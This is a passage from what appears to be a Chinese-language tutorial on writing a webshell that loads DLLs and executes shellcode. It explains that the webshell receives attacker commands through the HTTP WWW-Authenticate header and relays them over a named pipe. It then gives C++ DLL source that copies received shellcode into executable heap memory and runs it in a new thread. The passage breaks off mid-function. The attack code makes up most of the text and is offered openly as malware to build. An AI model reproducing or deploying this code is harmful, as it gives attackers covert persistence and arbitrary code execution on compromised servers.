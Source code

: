 此Webshell的主要功能就是上传并加载DLL文件和执行shellcode

`RandomAccessFile`类的功能是对文件内容进行读写操作，此处我们用它来实现webshell与命名管道的通信。例如先创建一个`RandomAccessFile` 对象来访问一个名为`pipeName`的命名管道，随后可通过此对象读取管道中接收的数据或向管道写入数据

```
RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
pipe.write(data); // 向管道写入数据
int data = pipe.read(); // 从管道读取数据
pipe.close(); // 关闭管道
```

Webshell通过HTTP请求头中的`WWW-Authenticate`字段的值来接收来自攻击者的指令，随后通过命名管道传递给服务器上的恶意进程，以此实现数据交互



### Dll的编写

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <Windows.h>
#include <iostream>

// 定义命名管道的名称以及其他的一些变量
#define PIPE_NAME L"\\\\.\\pipe\\josPipe"
#define BUFF_SIZE 1024
#define LOAD_SHELLCODE 0X01
DWORD dwThreadId = 0;

// 检查操作状态并向管道发送成功或失败的消息(与webshell交互)
void CheckSuccessAndSendMsg(BOOL bState, HANDLE hPipe) {
    DWORD dwWrittenSize = 0;
    CHAR Success[] = { 0x01 };
    CHAR Failed[] = { 0x00 };
    if (bState) {
        WriteFile(hPipe, Success, 1, &dwWrittenSize, NULL);
    }
    else {
        WriteFile(hPipe, Failed, 1, &dwWrittenSize, NULL);
    }
}

// 执行接收到的shellcode
BOOL ExecuteShellCode(PCHAR code, DWORD size) {
    HANDLE hHep = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);

    PVOID Mptr = HeapAlloc(hHep, 0, size);

    RtlCopyMemory(Mptr, code, size);
    DWORD dwThreadId = 0;
    HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, NULL, &dwThreadId);
    if (hThread == INVALID_HANDLE_VALUE) {
        return FALSE;
    }
    return TRUE;
    // WaitForSingleObject(hThread, INFINITE);
}

// 处理管道通信
DWORD HandleCode(VOID) {
    HANDLE hPipe;
    DWORD dwError;
    DWORD dwLen;

    // 创建命名管道
```